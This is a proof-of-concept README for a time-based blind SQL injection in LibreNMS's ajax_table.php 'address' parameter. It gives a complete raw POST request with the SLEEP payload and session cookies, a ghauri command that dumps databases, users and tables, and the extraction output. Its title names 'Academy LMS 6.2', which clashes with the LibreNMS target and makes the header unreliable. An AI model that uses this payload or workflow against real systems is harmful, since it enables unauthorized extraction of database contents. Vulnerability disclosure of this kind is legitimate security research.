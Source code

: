 # librenms_sql_poc

Exploit Title: Academy LMS 6.2 - SQL Injection Leads to database extraction

Exploit Author: Nisha Thakur

Vendor: librenms

Vendor Homepage: https://www.librenms.org/

Impact: Database Extraction

LinkedIn: https://www.linkedin.com/in/nisha-thakur-32b162277/

## POC
Login your account. then copy the cookie and paste on below raw request
```
POST /ajax_table.php HTTP/1.1
Host: demo.librenms.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 221
Accept: */*
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: laravel_session=eyJpdiI6IkhSbUwrVXQ0dHJDekVadlBrZStpWFE9PSIsInZhbHVlIjoicGZpL24yVGs5V1BxTnVWZXBGTmVrWUdKY0gyNmJJWHhtb1BkR2k0REhpaXFnYkJ6YnF2YmpLSC8wWnZRSkhCeWVhRDY2WHZBREhxRFE0SGpDNUd2NTMzbXdCc09tMUZnaDlpZkxQeHpibzJnZVdUNVhMd3pvVndLaGhIWjNWK1AiLCJtYWMiOiJiNmVhOWU1ZDJiYWI1Yjk5NjA0ZDk0NWZiNzcyMTY2NmQ5ZGY4MmYxZGVlMDQ4NTNlNzkzMGMyN2RmMTUyYmZkIiwidGFnIjoiIn0%3D; XSRF-TOKEN=eyJpdiI6IkxIZ3gvUGxDb0ZGNnEyUU9VNXdFYnc9PSIsInZhbHVlIjoibmI1alBXOVd1d1J6R3NCcUt1bkJNWGY0UzAxbFZYbVBKZG4rK0VRNkdpTVhwRzVqZXdGVmczMytnYjg5QVJmZ2FHZTNBa2RUY09MSFBDUWt1WXhQSEpiZDNVM3ZkUGVqbnJMVjZ6c2xjSEl5WkFNN0VWTWNUTXp3ZDZ2N1lWbnoiLCJtYWMiOiJhOGU4NDJiYTBmZTJiMTM2ZGNlZDMwNzkzMWM3NDVlZjEyYWFiODUwM2Q2ZmQ4YmVlMzUwOGM0ZDVkMmM3YjRiIiwidGFnIjoiIn0%3D
Origin: https://demo.librenms.org
Referer: https://demo.librenms.org/search/search=mac/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Csrf-Token: pqiGN72KyLqHwTyBgwtU6WVk216yTkC3TncjuZmX
X-Forwarded-For: 127.0.0.1
X-Forwarded-Host: demo.librenms.org
X-Forwarded-Proto: https
X-Forwarded-Url: https://demo.librenms.org/ajax_table.php
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

address='XOR(SELECT(0)FROM(SELECT(SLEEP(7)))a)XOR'Z&current=1&device_id=&id=address-search&interface=&rowCount=50&searchPhrase=&search_type=mac&sort[hostname]=asc
```
here vulnerable parameter is address .
For exploitation download ghauri tool. save raw request and then 
```
ghauri -r aa.txt --batch --dbs --current-user --hostname --tables
```
Response
```
Parameter: address (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind (query SLEEP)
    Payload: address='XOR(SELECT(0)FROM(SELECT(SLEEP(7)))a)XOR'Z&current=1&device_id=&id=address-search&interface=&rowCount=50&searchPhrase=&search_type=mac&sort[hostname]=asc

[16:54:29] [INFO] testing MySQL
[16:54:29] [INFO] confirming MySQL
[16:54:29] [INFO] the back-end DBMS is MySQL
[16:54:29] [INFO] fetching current user
[16:54:41] [INFO] resumed: 'librenms@localhost'
current user: 'librenms@localhost'
[16:54:41] [INFO] fetching hostname
[16:54:51] [INFO] resumed: 'utils'
hostname: 'utils'
[16:54:51] [INFO] fetching database names
[16:54:51] [INFO] fetching number of databases
[16:54:59] [WARNING] it was not possible to extract query output length for the SQL query provided.
[16:54:59] [WARNING] the SQL query provided does not return any output
[16:54:59] [ERROR] unable to retrieve the number of databases
[16:54:59] [INFO] fetching current database
[16:55:09] [INFO] resumed: 'librenms'
current database: 'librenms'
```
